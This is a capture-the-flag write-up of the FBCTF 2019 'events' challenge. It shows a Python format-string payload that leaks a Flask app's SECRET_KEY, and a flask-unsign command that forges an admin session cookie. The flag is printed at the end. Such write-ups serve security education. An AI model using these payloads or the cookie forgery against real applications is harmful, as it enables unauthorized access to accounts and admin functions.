 # events

This challenge has some basic functions: register/login, added events(Name or Address), Admin Panel.

Our goal is to login as admin to view the admin panel.

In the beginning, we tried to decrypt the `user` cookie.

The cookie consists of three parts: data, timestamp, signature.

e.g. `Inp4YyI.XPZfEQ.Mr7NJDYuYIF6sf87wTcKCYuBBVc`.

We can use the following script to decrypt data and timestamp:

```python
from itsdangerous import base64_decode

s = "ImFzZCI.XPVouA.bToZpDkYXf5CMWcolC-CWgdaDdU"
data, timestamp,secret = s.split('.')

print(base64_decode(data))
print(int.from_bytes(base64_decode(timestamp),byteorder='big'))
```

But we don't have any secret key, so we can't sign the cookie.

Then I found that someone use username:`asd` and password:`asd` to try some python format string attack:

![](https://github.com/w181496/CTF/raw/master/fbctf2019/events/asd.png)

When I refreshed this page, the addresses of the result changed too.

So I know there is a format string vulnerability in the added event function! Thank you `asd:asd`.

After fuzzing, I found the vulnerability is in the `event_important` argument:

`event_name=a&event_address=a&event_important=__dict__`

The response of this payload is: 

`{'_sa_instance_state': <sqlalchemy.orm.state.InstanceState object at 0x7fb2c5ba2588>, 'fmt': '{0.__dict__}', 'show': '__dict__', 'name': 'a', 'owner_id': 67, 'address': 'a', 'id': 5335}`

OK. Let's try to find some useful information.

After that, I found the config of this flask app:

`event_important=__class__.__init__.__globals__[app].config`

=>

`
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'events_sesh_cookie', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///my.db', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
`

It contains the secret key: `'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'`

We use `flask-unsign` to sign flask cookie.

![](https://github.com/w181496/CTF/raw/master/fbctf2019/events/colab.png)

`flask-unsign --secret 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y' --sign --cookie "admin"`

=> `ImFkbWluIg.XPSrLA.NdkV5Vsk-a5gDFlll1JcU2SumDI`

Replace the `user` cookie with this value, and then get the flag!

![](https://github.com/w181496/CTF/raw/master/fbctf2019/events/admin.png)

flag: `fb{e@t_aLL_th0s3_c0oKie5}`


